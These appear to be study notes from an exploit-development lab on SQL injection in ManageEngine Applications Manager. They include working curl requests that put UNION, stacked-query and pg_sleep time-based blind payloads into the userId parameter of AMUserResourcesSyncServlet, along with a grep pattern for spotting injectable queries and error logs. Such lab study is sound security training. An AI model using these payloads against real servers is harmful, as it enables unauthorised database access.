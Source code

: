 The downside with stacked queries is that they return multiple result sets. This can break the logic of the application and with it the ability to exfiltrate data with a boolean blind-based attack. Unfortunately, this is exactly what happens with our ManageEngine application. An example error message from the application logs (C:\Program Files (x86)\ManageEngine\AppManager12\logs\stdout.txt) when using stacked queries can be seen below.

```
[30 Nov 2018 07:40:23:556] SYS_OUT: AMConnectionPool : Error while executing query select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1;SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END)-- and RESOURCEID >1 and RESOURCEID < 10000001. Error Message : Multiple ResultSets were returned by the query.
```
Listing 17 - Using stacked queries with boolean-based payloads results in the breakdown of application logic

In order to solve this problem and still be able to use the flexibility of stacked queries, we have to resort to time-based blind injection payloads.

In the case of PostgreSQL, to confirm the blind injection we would use the pg_sleep function, as shown in the listing below.

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;
select+pg_sleep(10); HTTP/1.1
Host: manageengine:8443
```
Listing 18 - Causing the database to sleep for 10 seconds before returning

Note that the plus sign between select and pg_sleep will be interpreted as a space. This could also be substituted with the “%20” characters, which are the URL-encoded equivalent of a space.

Now that we have verified our ability to execute stacked queries along with time-based blind injection, we can continue our exploit development.

```
curl -k -v 'https://manageengine:8443/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1+UNION+SELECT+CASE+WHEN+(SELECT+1)=1+THEN+1+ELSE+0+END'
curl -k -v 'https://manageengine:8443/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1+UNION+SELECT+1'
curl -k -v 'https://manageengine:8443/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);'
         
```
Ex.

```
grep -r -P "^.*?query.*?select.*?where.*?(\+)+.*?" *

curl -k -v 'https://manageengine:8443/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);'
```
found issue with < and > and '

```
ERROR:  column "lt" does not exist at character 85
[ 2024-03-28 21:49:00.781 GMT ]:STATEMENT:  select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1 union select &lt
```
Single quote became &#39
```
select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1&#39
```
